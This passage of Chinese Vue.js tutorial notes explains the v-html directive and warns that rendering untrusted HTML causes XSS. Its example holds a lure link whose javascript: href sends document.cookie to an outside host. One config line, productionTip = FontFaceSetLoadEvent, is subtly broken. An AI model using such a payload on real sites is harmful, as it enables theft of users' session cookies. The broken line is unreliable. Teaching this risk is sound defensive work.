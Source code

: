 ```html
      name:'cess',
      str:'<h3>你好啊！</h3>'
    }
  })
</script>
```

![img](https://cdn.nlark.com/yuque/0/2022/png/1379492/1643288562593-79172b18-d290-4eb1-acf1-16f9d402275b.png)

#### 1.16.2. v-html 指令

 **v-html** 指令

作用：向指定节点中渲染包含`html`结构的内容 

与插值语法的区别： 

1. 1. 1.  **v-html** 会替换掉节点中所有的内容， **{{xxx}}** 则不会
      2.  **v-html** 可以识别 **html** 结构

严重注意 **v-html** 有安全性问题！！！ 

1. 1. 1. 在网站上动态渲染任意 **html** 是非常危险的，容易导致 **XSS** 攻击
      2. 一定要在可信的内容上使用 **v-html** ，永远不要用在用户提交的内容上！！！

```html
<title>v-html指令</title>
<script type="text/javascript" src="../js/vue.js"></script>

<div id="root">
  <div>你好，{{ name }}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>

<script type="text/javascript">
  Vue.config.productionTip = FontFaceSetLoadEvent
  new Vue({
    el:'#root',
    data:{
      name:'cess',
      str:'<h3>你好啊！</h3>',
      str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```

![img](https://cdn.nlark.com/yuque/0/2022/png/1379492/1643288714174-ac150b6b-abbb-46a3-9075-1ec9f1224052.png)

#### 1.16.3. v-cloak 指令

 **v-cloak** 指令（没有值）
